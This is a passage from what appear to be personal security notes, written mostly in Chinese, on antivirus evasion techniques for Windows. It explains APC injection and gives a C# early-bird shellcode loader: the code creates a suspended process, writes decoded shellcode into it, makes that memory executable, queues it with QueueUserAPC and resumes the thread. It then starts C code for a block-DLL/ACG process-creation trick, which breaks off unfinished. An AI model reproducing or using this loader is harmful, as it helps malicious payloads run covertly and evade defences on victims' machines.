 APC注入分为内核（驱动）APC注入 和 User-Mode APC注入两种，在内核态进行APC注入时不需要考虑`alertable`

3. 执行时间
apc它的执行时机有多，比如在线程wait、线程切换到应用层、线程被挂起等等等等,而且apc也分几个层次的优先级.就是说apc一般是不太需要立马执行的低优先级的函数。所以一旦线程有空隙了，windows就会执行一下.

```c#
string strShellCode = "[INSERT BASE64 SHELLCODE HERE]";
byte[] shellcode = System.Convert.FromBase64String(strShellCode);

STARTUPINFO si = new STARTUPINFO();
PROCESS_INFORMATION pi = new PROCESS_INFORMATION();
bool success = CreateProcess(processpath, null, 
						IntPtr.Zero, IntPtr.Zero, false, 
						ProcessCreationFlags.CREATE_SUSPENDED, 
						IntPtr.Zero, null, ref si, out pi);
						

IntPtr resultPtr = VirtualAllocEx(pi.hProcess, IntPtr.Zero, shellcode.Length,MEM_COMMIT, PAGE_READWRITE);
IntPtr bytesWritten = IntPtr.Zero;
bool resultBool = WriteProcessMemory(pi.hProcess,resultPtr,shellcode,shellcode.Length, out bytesWritten);
	
IntPtr sht = OpenThread(ThreadAccess.SET_CONTEXT, false, (int)pi.dwThreadId);
uint oldProtect = 0;
resultBool = VirtualProtectEx(pi.hProcess,resultPtr, shellcode.Length,PAGE_EXECUTE_READ, out oldProtect);
IntPtr ptr = QueueUserAPC(resultPtr,sht,IntPtr.Zero);
IntPtr ThreadHandle = pi.hThread;
ResumeThread(ThreadHandle);
```

### Block DLL(Create New Process)
https://www.anquanke.com/post/id/190344

![-w979](https://i.loli.net/2021/01/18/q1lZIm74SnvpAjO.jpg)
https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-updateprocthreadattribute

![](https://i.loli.net/2021/01/18/CByOAzWKlPJvUhV.jpg)
![](https://i.loli.net/2021/01/18/2UzRX1nflDeWtHF.jpg)


`/Users/boi/Documents/Work/Security/Pentest/bypassAV/blockdll_ACG/`
```c
STARTUPINFOEXA si;
PROCESS_INFORMATION pi;
policy.ProhibitDynamicCode = 1;

ZeroMemory(&si, sizeof(si));
si.StartupInfo.cb = sizeof(STARTUPINFOEXA);
si.StartupInfo.dwFlags = STARTF_USESHOWWINDOW;

// Get the size of our PROC_THREAD_ATTRIBUTE_LIST to be allocated
InitializeProcThreadAttributeList(NULL, 1, 0, &size);

// Allocate memory for PROC_THREAD_ATTRIBUTE_LIST
si.lpAttributeList = (LPPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(
	GetProcessHeap(),
	0,
	size
);

// Initialise our list 
```

[go/shellcode_inject/virtual>>]: generate